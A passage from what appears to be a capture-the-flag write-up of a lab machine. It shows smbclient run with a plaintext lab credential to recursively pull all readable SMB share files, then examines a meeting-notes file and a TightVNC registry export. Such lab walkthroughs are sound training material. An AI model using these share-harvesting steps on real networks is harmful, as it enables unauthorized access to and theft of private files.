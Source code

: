 
#### Share Enumeration

There’s a bunch of files in each of the shares I have access to. I use the
following commands to just pull all the files in each share (Data for
example):

    
    
    root@kali# smbclient --user r.thompson //10.10.10.182/data rY4n5eva
    Try "help" to get a list of possible commands.
    smb: \> mask ""
    smb: \> recurse ON
    smb: \> prompt OFF
    smb: \> mget *
    NT_STATUS_ACCESS_DENIED listing \Contractors\*
    NT_STATUS_ACCESS_DENIED listing \Finance\*
    getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as Meeting_Notes_June_2018.html (47.4 KiloBytes/sec) (average 47.4 KiloBytes/sec)
    getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as ArkAdRecycleBin.log (20.2 KiloBytes/sec) (average 32.5 KiloBytes/sec)
    getting file \IT\Logs\DCs\dcdiag.log of size 5967 as dcdiag.log (91.0 KiloBytes/sec) (average 53.4 KiloBytes/sec)
    getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as VNC Install.reg (50.3 KiloBytes/sec) (average 52.7 KiloBytes/sec)
    NT_STATUS_ACCESS_DENIED listing \Production\*
    NT_STATUS_ACCESS_DENIED listing \Temps\*
    

Then I can see a nice list of the files with `find`:

    
    
    root@kali# find smb-data-loot/ -type f 
    smb-data-loot/IT/Logs/DCs/dcdiag.log
    smb-data-loot/IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log
    smb-data-loot/IT/Email Archives/Meeting_Notes_June_2018.html
    smb-data-loot/IT/Temp/s.smith/VNC Install.reg
    

There’s a couple interesting files. `Meeting_Notes_June_2018.html` presents
like an email when viewed in Firefox:

![image-20200329161051144](https://0xdfimages.gitlab.io/img/image-20200329161051144.png)

I’ll keep an eye out for the admin account password and TempAdmin.

`VNC Install.reg` is interesting too. The file uses 16-bit characters, and
therefore looks really ugly in `less` or `vim`, but `cat` handles it:

    
    
    Windows Registry Editor Version 5.00
    
    [HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]
    
    [HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
    "ExtraPorts"=""
    "QueryTimeout"=dword:0000001e
    "QueryAcceptOnTimeout"=dword:00000000
    "LocalInputPriorityTimeout"=dword:00000003
    "LocalInputPriority"=dword:00000000
    "BlockRemoteInput"=dword:00000000
    "BlockLocalInput"=dword:00000000
    "IpAccessControl"=""
    "RfbPort"=dword:0000170c
    "HttpPort"=dword:000016a8
    "DisconnectAction"=dword:00000000
    "AcceptRfbConnections"=dword:00000001
    "UseVncAuthentication"=dword:00000001
    "UseControlAuthentication"=dword:00000000
    "RepeatControlAuthentication"=dword:00000000